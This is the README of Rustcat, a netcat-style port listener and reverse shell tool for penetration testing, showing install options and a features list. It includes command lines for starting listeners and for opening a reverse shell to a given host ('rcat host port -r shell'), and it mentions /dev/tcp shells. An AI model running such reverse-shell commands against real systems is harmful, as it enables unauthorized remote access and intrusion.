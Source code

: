 <div align="center" >
  <br>
  <img src="https://raw.githubusercontent.com/robiot/rustcat/main/img/banner.png">
  <br>
  
  <img alt="GitHub All Releases" src="https://img.shields.io/github/contributors/robiot/rustcat?label=Contributors">
  <img alt="GitHub Latest Release" src="https://img.shields.io/github/v/tag/robiot/rustcat?label=Latest%20Release">
  <img alt="AUR version" src="https://img.shields.io/aur/version/rustcat">
  <img alt="Crates.io" src="https://img.shields.io/crates/d/rustcat?label=Cargo%20Downloads">
  <img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/robiot/rustcat/total?label=GitHub%20Downloads">
  <img alt="Build Stats" src="https://github.com/robiot/rustcat/actions/workflows/rust.yml/badge.svg">
  <hr>
</div>

| **[Cargo][cargo_lnk]**                | **[Arch Linux][arch_lnk]**            | **[BlackArch][barch_lnk]**            | **[Debian/Kali][kali_lnk]**
|:-------------------------------------:|:-------------------------------------:|:-------------------------------------:|:-------------------------------------:|
| [![cargo_img]][cargo_lnk]             | [![arch_img]][arch_lnk]               | [![barch_img]][barch_lnk]             | [![kali_img]][kali_lnk]               |
| `cargo install rustcat`               | `yay -S rustcat`                      | `pacman -S rustcat`                   | [Read the install guide][debian_guide]|
| **[Funtoo][funtoo_lnk]**              | **[Other][other_lnk]**                |                                       |                                       |
| [![funtoo_img]][funtoo_lnk]           | [![other_img]][other_lnk]             |                                       |                                       |
| `emerge rustcat`                      | [Read the install guide][other_guide] |                                       |                                       |

[cargo_lnk]: https://crates.io/crates/rustcat
[cargo_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/cargo.png

[arch_lnk]: https://aur.archlinux.org/packages/rustcat/
[arch_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/arch.png

[barch_lnk]: https://www.blackarch.org/tools.html
[barch_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/blackarch.png

[kali_lnk]: https://github.com/robiot/rustcat
[kali_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/kali.png
[debian_guide]: https://github.com/robiot/rustcat/wiki/Installation-Guide#kalidebian

[funtoo_lnk]: https://github.com/funtoo/net-kit/tree/1.4-release/net-analyzer/rustcat
[funtoo_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/funtoo.png

[other_lnk]: https://github.com/robiot/rustcat
[other_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/others.png
[other_guide]: https://github.com/robiot/rustcat/wiki/Installation-Guide
<hr>

# 🤔 What Is Rustcat?
![Ex](https://raw.githubusercontent.com/robiot/rustcat/main/img/example.gif)

🎨 Rustcat is a modern port listener & Reverse Shell that is very easy to use.

# ✨ Features
* Listen on ports
* Command history & Tab completion
* Reverse shell
* Udp
* Colors

# ⚙️ Why Rustcat?

## 👶 Everything Easy
![Ex](https://raw.githubusercontent.com/robiot/rustcat/main/img/easy-revshell.gif)

Starting a listener is just as simple as `rcat -lp port`. While in netcat you would do something like `nc -nlvp port` to get the same results.

And creating a reverse shell has never been easier, `rcat host port -r shell` is all you need. No more long /dev/tcp stuff that you always forget.

## 📃 Command History
![Ex](https://raw.githubusercontent.com/robiot/rustcat/main/img/history.gif)

Command history is something we all need. How annoying isn't it when you accidently type a long command wrong, then you have to rewrite the entire thing.

But Rustcat fixes that with command history. Just add -H and you will get command history (`rcat -lHp port`) and command completion, unlike netcat where you have to use another application and do `rlwrap -cAr nc -nlvp port` to get the same results.

When adding -H, the shell will almost work like a ssh shell.

## 🎨 Appearance
A little splash of color doesn't hurt :).

## 🌀 Cross Platform
Rustcat supports unix and windows systems.

# 📖 Installation Guide
You can find the guide [here](https://github.com/robiot/rustcat/wiki/Installation-Guide)

# 💡 Usage
A basic usage guide can be found [here](https://github.com/robiot/rustcat/wiki/Basic-Usage)
